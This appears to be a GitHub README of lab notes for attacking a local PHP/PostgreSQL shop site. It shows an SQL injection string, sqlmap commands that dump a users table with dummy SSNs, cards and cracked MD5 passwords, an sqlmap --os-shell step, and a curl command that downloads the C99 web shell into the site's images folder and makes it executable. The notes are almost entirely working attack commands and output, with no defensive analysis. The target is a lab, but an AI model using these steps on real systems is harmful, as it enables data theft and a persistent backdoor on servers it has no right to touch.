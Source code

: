 # defendingbyattacking1

Apache/2.4.37 (centos)
PHP 7.2.24

http://localhost:8080/index.php
Request Method: 
GET

http://localhost:8080/products/search.php?product
Request Method: 
GET
<input name="product" type="text">

http://localhost:8080/loginform.php
Request Method: 
POST
			<input name="username" type="text">
			<input name="password" type="password">

http://localhost:8080/signup.php
Request Method: 
GET

http://localhost:8080/contact.php
Request Method: 
POST

http://localhost:8080/products/search.php?product=%27+or+1%3D1%3B--
' or 1=1;--
get Product list:

http://localhost:8080/secret.php?id=1
Request Method: 
GET
parameter"id" 
get purchase list 


# defendingbyattacking2

sqlmap -r /home/kali/Desktop/loginrequest.raw -dbs    
sqlmap -r /home/kali/Desktop/loginrequest.raw -D information_schema -tables 
sqlmap -r /home/kali/Desktop/loginrequest.raw -D pg_catalog -tables  
sqlmap -r /home/kali/Desktop/loginrequest.raw -D public -tables  
sqlmap -r /home/kali/Desktop/loginrequest.raw -D public -T users 

back-end DBMS: PostgreSQL
available databases [3]:
[*] information_schema
[7 tables]
+-------------------------+
| sql_features            |
| sql_implementation_info |
| sql_languages           |
| sql_packages            |
| sql_parts               |
| sql_sizing              |
| sql_sizing_profiles     |
+-------------------------+

[*] pg_catalog

[63 tables]
+-------------------------+
| pg_aggregate            |
| pg_am                   |
| pg_amop                 |
| pg_amproc               |
| pg_attrdef              |
| pg_attribute            |
| pg_auth_members         |
| pg_authid               |
| pg_cast                 |
| pg_class                |
| pg_collation            |
| pg_constraint           |
| pg_conversion           |
| pg_database             |
| pg_db_role_setting      |
| pg_default_acl          |
| pg_depend               |
| pg_description          |
| pg_enum                 |
| pg_event_trigger        |
| pg_extension            |
| pg_foreign_data_wrapper |
| pg_foreign_server       |
| pg_foreign_table        |
| pg_index                |
| pg_inherits             |
| pg_init_privs           |
| pg_language             |
| pg_largeobject          |
| pg_largeobject_metadata |
| pg_namespace            |
| pg_opclass              |
| pg_operator             |
| pg_opfamily             |
| pg_partitioned_table    |
| pg_pltemplate           |
| pg_policy               |
| pg_proc                 |
| pg_publication          |
| pg_publication_rel      |
| pg_range                |
| pg_replication_origin   |
| pg_rewrite              |
| pg_seclabel             |
| pg_sequence             |
| pg_shdepend             |
| pg_shdescription        |
| pg_shseclabel           |
| pg_statistic            |
| pg_statistic_ext        |
| pg_statistic_ext_data   |
| pg_subscription         |
| pg_subscription_rel     |
| pg_tablespace           |
| pg_transform            |
| pg_trigger              |
| pg_ts_config            |
| pg_ts_config_map        |
| pg_ts_dict              |
| pg_ts_parser            |
| pg_ts_template          |
| pg_type                 |
| pg_user_mapping         |
+-------------------------+

[*] public

Database: public
[1 table]
+-------+
| users |
+-------+
Database: public
Table: users
[2 entries]
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+
| id | ssn   | name      | email         | address                        | password                         | username | credit_card          |
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+
| 1  | SSN-1 | Test user | test@test.com | 1st Test Avenue, Washington DC | 098f6bcd4621d373cade4e832627b4f6 | test     | VISA-1234-1234       |
| 2  | SSN-2 | Demo user | demo@demo.com | 1st Demo St., Washington DC    | fe01ce2a7fbac8fafaed7c982a04e229 | demo     | Mastercard-1234-1234 |
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+

[07:28:42] [INFO] resuming password 'test' for hash '098f6bcd4621d373cade4e832627b4f6' for user 'test'
[07:28:42] [INFO] resuming password 'demo' for hash 'fe01ce2a7fbac8fafaed7c982a04e229' for user 'demo'
Database: public
Table: users
[2 entries]
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+
| id | ssn   | name      | email         | address                        | password                                | username | credit_card          |
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+
| 1  | SSN-1 | Test user | test@test.com | 1st Test Avenue, Washington DC | 098f6bcd4621d373cade4e832627b4f6 (test) | test     | VISA-1234-1234       |
| 2  | SSN-2 | Demo user | demo@demo.com | 1st Demo St., Washington DC    | fe01ce2a7fbac8fafaed7c982a04e229 (demo) | demo     | Mastercard-1234-1234 |
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+

# defendingbyattacking3
sqlmap -r /home/kali/Desktop/loginrequest.raw -D public  --os-shell  
curl -o /var/projects/ecommerce/images/c99shell.php https://raw.githubusercontent.com/KaizenLouie/C99Shell-PHP7/master/c99shell.php
chmod 755 /var/projects/ecommerce/images/c99shell.php

os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[13:11:21] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[13:11:21] [INFO] retrieved: 'postgres'
command standard output:
---
p
o
s
t
g
r
e
s
